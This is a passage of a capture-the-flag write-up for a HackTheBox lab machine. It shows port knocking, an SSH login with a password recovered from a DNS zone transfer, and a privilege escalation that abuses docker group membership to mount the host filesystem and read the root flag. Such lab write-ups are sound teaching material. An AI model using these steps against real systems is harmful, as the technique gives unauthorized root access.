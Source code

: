 And I've a new SSH port.
I'll try `prometheus:St34l_th3_F1re!` which I got from zone-transfer.
```bash
$ knock ctfolympus.htb 3456 8234 62431; ssh prometheus@ctfolympus.htb
The authenticity of host 'ctfolympus.htb (10.10.10.83)' can't be established.
ECDSA key fingerprint is SHA256:8TR2+AWSBT/c5mrjpDotoEYu0mEy/jCzpuS79d+Z0oY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ctfolympus.htb,10.10.10.83' (ECDSA) to the list of known hosts.
prometheus@ctfolympus.htb's password:

Welcome to

    )         (
 ( /(     )   )\ )   (
 )\()) ( /(  (()/(  ))\ (
((_)\  )(_))  ((_))/((_))\
| |(_)((_)_   _| |(_)) ((_)
| ' \ / _` |/ _` |/ -_)(_-<
|_||_|\__,_|\__,_|\___|/__/

prometheus@olympus:~$ ls
msg_of_gods.txt  user.txt
```

If I see the IP for the box, I can confirm this one's the host:
```bash
$ ip addr
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b9:61:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.83/24 brd 10.10.10.255 scope global enp0s3
       valid_lft forever preferred_lft forever
```
# Privesc via docker 
If I check for groups `prometheus` is in. It lists `docker`.
```bash
prometheus@olympus:~$ id
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
```

I can list the containers running:
```bash
prometheus@olympus:~$ docker container ls
CONTAINER ID     IMAGE       COMMAND                  CREATED          STATUS        PORTS                       			  NAMES
f00ba96171c5     crete       "docker-php-entrypoi…"   3 years ago      Up 14 hours   0.0.0.0:80->80/tcp                       crete
ce2ecb56a96e     rodhes      "/etc/bind/entrypoin…"   3 years ago      Up 14 hours   0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes
620b296204a3     olympia     "/usr/sbin/sshd -D"      3 years ago      Up 14 hours   0.0.0.0:2222->22/tcp                     olympia
```

I can just run any docker while mounting the root of host to /mnt of that docker instance and access the file-system:
```bash
prometheus@olympus:~$ docker run -v /:/mnt -i -t crete bash

root@98b9021fd1b8:/home/zeus/airgeddon# cat /mnt/root/root.txt
aba486990e2e849e25c23f6e41e5e303
```
